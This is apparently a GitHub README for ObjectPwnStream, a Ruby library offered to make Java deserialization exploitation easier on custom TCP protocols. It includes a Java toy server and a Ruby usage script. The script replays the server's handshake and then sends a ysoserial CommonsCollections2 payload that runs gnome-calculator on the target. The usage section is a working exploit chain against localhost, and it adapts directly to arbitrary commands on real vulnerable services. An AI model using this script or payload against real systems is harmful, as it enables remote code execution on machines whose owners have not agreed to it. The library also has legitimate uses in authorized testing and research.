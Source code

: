 # ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation on custom TCP based network protocols.

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install
## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a TCP socket, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this [toy server](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServer.java) for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new("127.0.0.1", 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int 0x1337
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short 0xabcd
pwnStream.read_long signed=true
pwnStream.write_long -12345
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar","CommonsCollections2", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
```
## PoC

![poc](https://user-images.githubusercontent.com/67718634/170808392-1ce8efff-b8c6-4372-8d7a-b20b4fbeadc9.gif)


## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/ObjectPwnStream/blob/master/CODE_OF_CONDUCT.md).

## Todo

- document all the functions.
- support CLI mode.

